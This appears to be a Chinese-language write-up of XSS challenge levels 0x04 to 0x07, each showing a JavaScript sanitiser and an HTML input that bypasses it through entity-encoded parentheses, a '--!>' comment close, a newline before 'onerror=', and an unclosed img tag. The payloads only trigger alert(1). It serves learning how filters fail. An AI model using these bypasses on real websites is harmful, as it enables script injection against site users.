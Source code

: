 ## 0x04
过滤`()`
用html编码
servercode
```js
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```
input
```html
<img src="" onerror=alert&lpar;&#49;&rpar;>
```

## 0x05
两种注释方法
`<!-- --!>`
`<!-- -->`
servercode
```js
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```
input
```html
--!><script>alert(1);</script><！--
```

## 0x06
过滤auto 和 on 开头且以=结尾的字符串 和 >
换行绕过
servercode
```js
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```
input
```html
type="image" src="" onerror
=alert(1)
```

## 0x07
匹配 `</ 任意字符 >`
servercode
```js
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```
input
```html
<img src="" onerror=alert(1) 
```
